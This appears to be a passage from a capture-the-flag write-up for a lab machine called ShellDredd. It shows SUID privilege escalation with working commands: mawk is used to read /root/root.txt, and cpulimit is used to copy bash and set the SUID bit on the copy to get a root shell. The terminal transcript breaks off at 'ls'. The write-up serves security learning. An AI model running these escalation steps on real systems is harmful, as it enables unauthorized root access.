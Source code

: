 Two binaries that can be used to escalate to root.

MAWK

As the SUID bit is set on this binary, we can use mawk to do a privileged read of the /root/root.txt file.

First, we'll set an environment variable of the file we want to read (/root/root.txt):

ROOT_FLAG=/root/root.txt

We can then run the mawk command and pass in the above variable:

mawk '//' "$ROOT_FLAG"

CPULIMIT

Man Page

       -l, --limit=N

              percentage of CPU allowed from 1 up. Usually 1 - 100, but can

              be higher on multi-core CPUs. (mandatory)

       -f, --foreground

              run cpulimit in foreground while waiting for launched process

              to finish

Now to use -f for privilege escalation

hannah@ShellDredd:~$ cd /tmp/

hannah@ShellDredd:/tmp$ cpulimit -l 100 -f mkdir /temp

Process 1274 detected

Child process is finished, exiting...

hannah@ShellDredd:/tmp$ cpulimit -l 100 -f chmod 4755 /use/bin/bash

Process 1280 detected

chmod: cannot access '/use/bin/bash': No such file or directory

Child process is finished, exiting...

hannah@ShellDredd:/tmp$ cpulimit -l 100 -f cp /usr/bin/bash /temp

Process 1294 detected

Child process is finished, exiting...

hannah@ShellDredd:/tmp$ cpulimit -l 100 -f chmod +s /temp/bash   

Process 1296 detected

Child process is finished, exiting...

hannah@ShellDredd:/tmp$ cd /

hannah@ShellDredd:/$ ls
